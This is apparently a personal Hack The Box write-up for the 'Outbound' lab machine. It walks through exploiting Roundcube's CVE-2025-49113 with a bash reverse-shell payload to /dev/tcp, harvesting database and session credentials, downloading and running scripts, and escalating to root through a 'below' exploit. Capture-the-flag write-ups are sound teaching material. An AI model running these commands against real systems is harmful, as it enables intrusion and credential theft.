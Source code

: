 ```yaml
---
layout: post
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines,tryout]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

<code>
nmap -sV 10.10.11.77
</code>

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

<code>
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
</code>

Then ran:

<code>
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i &gt;&amp; /dev/tcp/10.10.14.87/2311 0&gt;&amp;1'"
</code>

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

<code>
cat /var/www/html/roundcube/config/config.inc.php
</code>

It contained MySQL credentials:

<code>
Username: roundcube  
Password: RCDBPass2025
</code>

I logged into the database:

<code>
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
</code>

Then ran:

<code>
USE roundcube;  
SELECT * FROM session;
</code>

This revealed base64-encoded serialized session data. After decoding it, I found:

<code>
username|s:5:"jacob";  
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
</code>

---

### Cracking the Password

To decrypt the password, I used the following Python script:

<code>
curl https://raw.githubusercontent.com/dogujen/dogujen.github.io/refs/heads/main/assets/des-decrypt-outbound.py -o des-decrypt-outbound.py && python des-decrypt-outbound.py
</code>

**Output:**

<code>
Decrypted password: ********
</code>

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

<code>
sudo -l
</code>

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄  
Happy hacking!
